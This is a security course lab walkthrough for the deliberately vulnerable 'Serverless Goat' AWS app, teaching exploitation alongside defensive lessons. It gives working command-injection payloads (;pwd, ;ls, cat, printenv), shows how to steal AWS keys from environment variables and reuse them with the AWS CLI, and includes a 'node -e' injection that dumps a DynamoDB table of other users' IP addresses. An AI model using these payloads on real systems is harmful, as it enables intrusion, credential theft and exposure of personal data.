







Serverless applications do not have persistent machines at well-known addresses that an adversary can attack. Yet, this does not mean they are necessarily secure. Even serverless applications are subject to many of the attacks used in web applications running on servers such as sensitive information exposure, vulnerable components, and injection.
What you will do
In this codelab, you will visit a vulnerable serverless application and exploit it multiple ways.
What you'll learn
- How to leverage vulnerabilities in serverless applications to gain unauthorized access to cloud resources
What you'll need
Visit the site
The vulnerable application (courtesy of Yuri Shapira, Ory Segal, and PureSec) can be found at http://sg.oregonctf.org . The serverless application takes a URL that specifies a Word 97 document and converts it into HTML to return it.

Run the application
Submit the URL, the application redirects the user to a web frontend to an AWS S3 bucket where the result is stored. This is done since the application is implemented using AWS Lambda which has a file size limit on responses. Large files must be sent to an S3 bucket for subsequent retrieval.

The URL http://sg.oregonctf.org redirects the user to a landing page of the application which exposes its front-end AWS Lambda endpoint. One would typically hide this particular endpoint behind a DNS name.
- The endpoint exposes the region it is being run in. What region does it reside in?
There is another AWS Lambda endpoint that processes the URL submitted to perform the conversion. Right-clicking the "Submit" button and inspecting the HTML in the browser's Developer Tools exposes it.
- What is the URL of the endpoint that handles the submission?
With the Developer Tools up, click on the "Network" tab to bring up browser requests and responses in real-time.

You can pull out the HTTP request and response headers for the main conversion request, by clicking on it and then on "Headers". Then, submit a document to be converted. The request should appear in Developer Tools. Clicking on it will give you the data that corresponds to this request including the General, Response Headers, Request Headers, and Query String Parameters.

Expand out the General headers to see the HTTP status code that is returned on this request. Then, expand out the "Response Headers" to find the Location: HTTP response header that is associated with it.
be sent along with this particular HTTP status code
- What is the URL that the browser is redirected to?
Input validation and sanitization must be done to ensure any application's security. Along with that, any errors that result from improper input should be sanitized, ensuring that no sensitive information is passed back. To test this, revisit the application and bring up Developer Tools. Upon performing the submission, examine the request that has been sent to the Lambda function to convert the document. The form submission employs the GET method for sending form parameters to the endpoint. Examine the parameter name. Now, remove the parameter name altogether, submit the request, and examine the output.
The omission of the form parameter results in an error that reveals the file path to the JavaScript file that implements the application. Make a note of this file path for the next step. The error also reveals a stack trace of where the application was during execution, starting from the leaf function where the error occurred and going back to the function that called the leaf. The error includes the line numbers in the JavaScript file where execution ended.
- What leaf function did the error happen in?
- What function called this function?
Input validation is a key part of designing applications whether they are serverless or not. This particular application uses the AWS API Gateway to implement its functions.
- Visit the AWS API Gateway Developer Guide and examine the topics in the "Develop" section of "Working with REST APIs". Find a feature that can be enabled to help this serverless application validate its input.
Injection attacks occur when input that is controlled by an adversary is sent directly to an interpreter running on the server without sanitization. In this application, a URL is sent to the application for the application to download and convert. If the URL is fed directly into a Unix command, then an adversary can inject an OS command into the
processing by the use of a semicolon. For example "sleep 1; echo hi" performs a sleep followed by an echo.
Use command injection within the web form to obtain the working directory the application is run in. Note that you can also perform the injection in the URL bar, but will need URL-encode the command (e.g. ;pwd => %3Bpwd).
- What is the working directory for the application?
Repeat the injection, but perform a listing of the directory (e.g. ;ls)
- What files are in this directory?
Then, repeat the injection, but cat the JavaScript file that implements the application (as discovered in the previous step)
- Take a screenshot showing the raw output of the source file implementing the application.
Finally, the application is written in JavaScript and depends upon particular packages to be installed. From the directory listing, the package manifest in JSON is listed. Repeat the command injection to find the package included in the manifest and its version.
- Look up this package and version to determine how old the package is? Find any known vulnerabilities in this package.
Examine the code to find the place where the application takes what is given as the document_url parameter, retrieves the URL it specifies (where the command injection occurs), then converts it.
- Show the line of code that the command injection occurs in
After performing the conversion, the application creates a unique identifier, instantiates an AWS S3 client, and puts the object into a bucket. Finally, the application performs the redirection shown earlier. Answer the following questions about the code.
- How is the name of the S3 bucket obtained by the application code?
- How is the URL obtained for the S3 bucket obtained for performing the redirection?
- What would be the impact of the vulnerability found earlier have in this code (if any)?
Examine the function that the error occurs in when document_url is missing in the URL parameters. The code takes the IP address of the request and the URL requested and logs it into a table in a database.
- What database is being used to store information about requests?
In the previous step, the source code indicates that its configuration is pulled from the environment of the process that is running it. When we see the directory paths that are exposed when giving the script adversarial input, it appears that the function runs on a Linux-based system. Use the Linux command printenv to print the environment. Use command injection as done previously, to print the environment out.
- Show the variable that stores the bucket name in a screenshot
- Show the table name that is used to store activity information from the application
Knowing the name of the bucket that is being used can often be leveraged to gain access. As an example, S3 buckets can be configured to allow public access via URL. In this case, the application has enabled this feature since it is redirecting users straight to a bucket-hosted URL. We can use the name of the bucket to see what kinds of information can be obtained. Buckets that have web-site hosting enabled in S3 can be accessed via a URL such as: https://<BUCKET_NAME>.s3.amazonaws.com/
- Visit the URL associated with the S3 bucket and take a screenshot of what it reveals
Storage buckets implement object-based storage. Similar to web servers, knowing the key used to identify an object in a bucket, allows you to then access it. The manifest obtained above contains a list of all of the object keys stored in the bucket, including the times they were created and their size. Objects can be directly retrieved using a URL such as: https://<BUCKET_NAME>.s3.amazonaws.com/<KEY>
- Find a document that has been converted by another user previously and use its object key to get access to the converted data
As this example shows, anyone who knows the bucket name can see the output of other users' converted documents.
Revisit the output of the environment variables. In examining it, you can see that it also includes the function's "crown-jewels", its secret access key ID, its secret access key, and its session token. Knowing these values allows anyone to take on the roles the function has been given. If, for example, the function has been given write access to the storage bucket, we can directly use these values to write an arbitrary object into the bucket.
Bring up AWS CLI so that it can be used to activate the credentials we've discovered.
- To bootstrap the entry of the credentials, run "
aws configure --profile serverlesshackme" to configure a profile using the captured credentials - Fill out the information for the
AWS Access Key ID, theAWS Secret Access Key, and theDefault region namebased on the AWS credentials that you've revealed. Use "None" for theDefault output format. - The credentials obtained come with a session token. You need to manually add this token to the profile. To do so, there is a special file that the CLI uses to store the AWS account profile information you just entered:
$HOME/.aws/credentials - Open this file up in an editor and find the profile, add a line to specify the AWS_SESSION_TOKEN via
aws_session_tokenin profile as shown below. Ensure that there are no stray carriage returns especially on the session token
[serverlesshackme] aws_access_key_id = ASIA...5 aws_secret_access_key = e58IY...El aws_session_token = AgoJb...7re0=
Go back to the AWS CLI and use the AWS Security Token Service to see the role associated with this access key and token.
aws sts get-caller-identity --profile serverlesshackme
- Take a screenshot of the output.
- Using the profile, show a screenshot of the objects in the S3 bucket that the function is using to store its results.
aws s3 ls s3://<bucket> --profile serverlesshackmeOn cloud platforms, roles are defined with specific sets of permissions that determine the kinds of access to resources that are allowed. As shown in the previous step, we have taken on an assumed role that has been configured by the developer of the Lambda function. If the developer has not practiced least privileges in the allocation of permissions, we might be able to do operations that the developer might not have intended for us to do.
In this case, you are blind to the permissions associated with the role you've obtained. There are no IAM permissions given with it. However, given that the application is able to write to both an S3 storage bucket and a database, you can begin testing whether or not you have additional access beyond simply writing to each.
Role 1
It turns out there are several roles attached to the Lambda you're accessing. As an adversary, you wouldn't typically have access to list them, but you would instead infer them by trial and error. The first role is the standard Lambda execution role that allows the Lambda to write to the CloudWatch service which serves as the project's centralized logging facility. Allowing a role to write to the log service is standard practice as allowing read access would enable it to access log entries of other services that it should not need.

Role 2
The next role is an in-line role to allow access to the database backend:

- Does the application ever need to read from the table specified?
Unlike The CloudWatch permission that only allows the Write, the fact that this role has been given read access to DynamoDB can lead to unauthorized exfiltration of any information contained within the database backend if the Lambda is compromised.
Role 3
The last role specifies the access level to the storage bucket.

- What permissions might not be necessary in this policy?
FunctionConvertRolePolicy0 has given read and write permissions to the backend database. Specifically, this gives the function the following permissions:
- dynamodb:GetItem - dynamodb:DeleteItem - dynamodb:PutItem - dynamodb:Scan - dynamodb:Query - dynamodb:UpdateItem - dynamodb:BatchWriteItem - dynamodb:BatchGetItem - dynamodb:DescribeTable
With these permissions and with the ability to inject commands into the Lambda, we can inject a script that exfiltrates the entire table of URLs converted and the IP addresses that these conversions have been submitted from. The code to inject is shown below. It performs a scan of the table used to store all of this information and dumps it out to the console.
const AWS = require("aws-sdk");
(async () => {
console.log(
await new AWS.DynamoDB.DocumentClient().scan({
TableName: process.env.TABLE_NAME
}).promise());
})();We can then use command injection to invoke the Node.js interpreter on it.
https://; node -e 'const AWS = require("aws-sdk"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME}).promise());})();'
You will see a large number of conversions since this exposes all of the activity from each student in class. To modify the injection to only return yours, you can add a filter to this query. Substitute your IP address in the filter below to show only your accesses.
https://; node -e 'const AWS = require("aws-sdk"); (async () => {console.log(await new AWS.DynamoDB.DocumentClient().scan({TableName: process.env.TABLE_NAME, ExpressionAttributeValues: {":ip": "<YourIPAddress>"}, FilterExpression: "contains (ip, :ip)"}).promise());})();'
- Take a screenshot of a conversion and IP address from another user.
You've completed the AWS Serverless Goat lab.
What we've covered
- Serverless application security issues including failure to validate input, information exposure, command injection, excessive permissions, and data exfiltration.
- Leveraging vulnerabilities in serverless applications to gain unauthorized access.